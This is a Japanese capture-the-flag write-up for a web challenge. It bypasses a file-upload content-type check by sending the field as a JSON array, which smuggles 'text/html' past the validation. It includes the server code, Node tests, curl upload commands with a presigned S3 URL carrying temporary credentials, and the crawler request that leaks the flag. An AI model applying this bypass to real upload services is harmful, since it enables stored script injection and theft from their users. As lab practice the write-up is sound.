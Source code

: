 # Just included?:Validation Bypass:50pts
include  

- [Target](https://dobmbu2gvgzru.cloudfront.net/)  

**source code**  

- [Web Application](https://drive.google.com/file/d/1o82gm2U0H7vxGMYc2D12PSg_Wj4onixM/view?usp=drive_link)  

※ If no announcement is made, all "Crawler" source codes are the same.  

[https://dobmbu2gvgzru.cloudfront.net/](https://dobmbu2gvgzru.cloudfront.net/)  

# Solution
URLとアプリケーションのソースが渡される。  
クローラは[Server Side Upload](../Server_Side_Upload)と同様なようだ。  
ファイルアップロードサイトも同じなようだ。  
![site.png](site/site.png)  
ソースの主要部分は以下であった。  
```ts
~~~
server.post<{
  Body: {
    contentType: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.contentType || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  if (request.body.contentType.includes(';')) {
    return reply.code(400).send({ error: 'No file type (only type/subtype)' });
  }

  const allow = new RegExp('image/(jpg|jpeg|png|gif)$');
  if (!allow.test(request.body.contentType)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
    signableHeaders: new Set(['content-type', 'content-length']),
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
~~~
```
初めにファイルの`contentType`を`includes(';')`でチェックし、charsetのテクニックを防いでいる。  
その後に正規表現`'image/(jpg|jpeg|png|gif)$'`でチェックしている。  
一見するとバイパスできそうになさそうだ。  
ここで`contentType`に配列を指定することを思いつく。  
以下の通りチェックしてみる。  
```bash
$ node
~~~
> ["text/html; charset=image/png"].includes(";")
false
> const allow = new RegExp('image/(jpg|jpeg|png|gif)$');
undefined
> allow.test(["text/html; charset=image/png"])
true
```
ともにバイパスできそうだ。  
以下のように行う(Server Side Uploadと同じHTMLを利用)。  
```bash
$ curl -X POST -H 'Content-Type: application/json' -d '{"contentType":["text/html; charset=image/png"],"length":221}' --upload-file xs3.html 'https://dobmbu2gvgzru.cloudfront.net/api/upload'
{"url":"https://uploadbucket-5b1bc63390-4-2-upload.s3.ap-northeast-1.amazonaws.com/upload/2784d4d0-e75e-4868-b6fa-afd321254ee0?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4MOINIEPL%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T050343Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEM3%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkcwRQIgC5aCon3izBVvwCEMlQNJxKgvVh%2F0HRKUsuitn8tnmEwCIQCfaaogS85upszjaqw%2FjT7iNO1kVklV0gL2umBNhzso0iq7Awjm%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAEaDDMwODUyMTQwNzczNiIMLZ4vvDTZeS%2BaO2nIKo8DCnfng5PZextFyoJ6RMagGk5CWvNREHoOvDS%2B1SEpcjehyiWKARhaD%2BO8CqY5zfApEn8B4X9F%2F5vUu5nmTuGFZXfFeYxg44yMWFMLtKik%2B7%2F7A7EDgWw1MBCRNcJggKekvgEGjsBhuzd7s8CFv2%2FaqeZVNa3s22ACMkFVlpDf40V0WUk%2FyrD18Mq1teGbMvw5%2B%2BLroF0K4Vdktv1CtcbhUsoBS%2FjDuYUF5Qh1ZpmBN%2FTMiTLvE1AChh9Hro8IPe7yMvTxzzwP5UMGgJjx4kkH5g%2FKiL%2Fd5YQq0l6jTGC63y9JSQOrKjcBuPFJmotsU9cmQUr8llfAVdNgveQcP%2BquAQ%2F%2FxVg1KH7X%2BzrmJa6cOtZCwXLHlRQ1gIUArAHmzuOX1Tpb%2FTLztkr%2BwkSVoFsi7XJMl7Z%2B05%2Favxf03QFPu7wwDIXFQ0gcz9oPp%2FtpiGP8ueD3REttbNz3kCb%2BsPZNtY5Nxf0elNUXgmlnBgiFdaNzf8FJgrPDw3p0Pk8GoK%2FTh4k%2FwHdrXOFSmbJje2GwMIeXmbAGOp4B0PEWh9OWOoa68W%2Fz0aPxRyr3aFEcMrA7BlXH7lys43pRr6sfOEpg718YLtVAR33EroFNRS%2BubEyWfJt41YAziAfYkWR0xSJjiZoir9GwacqDkA0wie%2F9eSN4eWEGtJMo9CcM9rqqyVJElduq8XM0U9PVkZKKk1a2H25c1OUpcBxrAuEuo%2FeTKT8vim9qoj8ik8Q3FpUVdPxfpEqfTD0%3D&X-Amz-Signature=e3e45c1013668b7c1509ab9139f8a66d76414dcdda8164348781918e29a9296d&X-Amz-SignedHeaders=content-length%3Bhost&x-id=PutObject","filename":"2784d4d0-e75e-4868-b6fa-afd321254ee0"}
$ curl -X PUT -H 'Content-Type: text/html; charset=image/png' --upload-file xs3.html 'https://uploadbucket-5b1bc63390-4-2-upload.s3.ap-northeast-1.amazonaws.com/upload/2784d4d0-e75e-4868-b6fa-afd321254ee0?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4MOINIEPL%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T050343Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEM3%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkcwRQIgC5aCon3izBVvwCEMlQNJxKgvVh%2F0HRKUsuitn8tnmEwCIQCfaaogS85upszjaqw%2FjT7iNO1kVklV0gL2umBNhzso0iq7Awjm%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAEaDDMwODUyMTQwNzczNiIMLZ4vvDTZeS%2BaO2nIKo8DCnfng5PZextFyoJ6RMagGk5CWvNREHoOvDS%2B1SEpcjehyiWKARhaD%2BO8CqY5zfApEn8B4X9F%2F5vUu5nmTuGFZXfFeYxg44yMWFMLtKik%2B7%2F7A7EDgWw1MBCRNcJggKekvgEGjsBhuzd7s8CFv2%2FaqeZVNa3s22ACMkFVlpDf40V0WUk%2FyrD18Mq1teGbMvw5%2B%2BLroF0K4Vdktv1CtcbhUsoBS%2FjDuYUF5Qh1ZpmBN%2FTMiTLvE1AChh9Hro8IPe7yMvTxzzwP5UMGgJjx4kkH5g%2FKiL%2Fd5YQq0l6jTGC63y9JSQOrKjcBuPFJmotsU9cmQUr8llfAVdNgveQcP%2BquAQ%2F%2FxVg1KH7X%2BzrmJa6cOtZCwXLHlRQ1gIUArAHmzuOX1Tpb%2FTLztkr%2BwkSVoFsi7XJMl7Z%2B05%2Favxf03QFPu7wwDIXFQ0gcz9oPp%2FtpiGP8ueD3REttbNz3kCb%2BsPZNtY5Nxf0elNUXgmlnBgiFdaNzf8FJgrPDw3p0Pk8GoK%2FTh4k%2FwHdrXOFSmbJje2GwMIeXmbAGOp4B0PEWh9OWOoa68W%2Fz0aPxRyr3aFEcMrA7BlXH7lys43pRr6sfOEpg718YLtVAR33EroFNRS%2BubEyWfJt41YAziAfYkWR0xSJjiZoir9GwacqDkA0wie%2F9eSN4eWEGtJMo9CcM9rqqyVJElduq8XM0U9PVkZKKk1a2H25c1OUpcBxrAuEuo%2FeTKT8vim9qoj8ik8Q3FpUVdPxfpEqfTD0%3D&X-Amz-Signature=e3e45c1013668b7c1509ab9139f8a66d76414dcdda8164348781918e29a9296d&X-Amz-SignedHeaders=content-length%3Bhost&x-id=PutObject'
```
エラーとならないため、ファイル名からURLを`https://dobmbu2gvgzru.cloudfront.net/upload/2784d4d0-e75e-4868-b6fa-afd321254ee0`と構成してクローラに投げる。  
以下のリクエストが届く。  
```
GET
/?satoki=flag=flag{acc9b4786f6bf003a75f32b5607c92530dcf6b9f}
```
flagが得られた。  

## flag{acc9b4786f6bf003a75f32b5607c92530dcf6b9f}